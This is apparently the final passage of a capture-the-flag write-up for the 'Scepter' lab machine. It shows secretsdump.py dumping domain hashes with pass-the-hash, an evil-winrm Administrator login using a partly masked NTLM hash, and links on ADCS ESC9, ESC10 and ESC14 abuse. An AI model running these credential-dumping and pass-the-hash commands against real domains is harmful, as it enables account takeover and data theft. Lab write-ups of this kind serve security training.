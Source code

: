 ```bash
secretsdump.py 'scepter.htb'/'p.adams'@scepter.htb -hashes :1b925xxxxxxxxxxxxxxx18ce0
```
![](https://cdn-images-1.medium.com/max/1000/1*BR0LqtSfZPKqs2g1OQBMWQ.png)

Then we can use this hash to auth as administrator and access the machine using evil-winrm

```bash
evil-winrm -i dc01.scepter.htb -u Administrator -H a291xxxxxxxxxxxxxxxxxxxxxxc4 
```
![](https://cdn-images-1.medium.com/max/1000/1*qgreuLAZRBLO_kmFV-xsVA.png)

## Resources

+ [Certipy 4.0: ESC9 & ESC10](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

+ [(ESC9) No security extension](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

+ [ADCS ESC14 Abuse Technique](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)

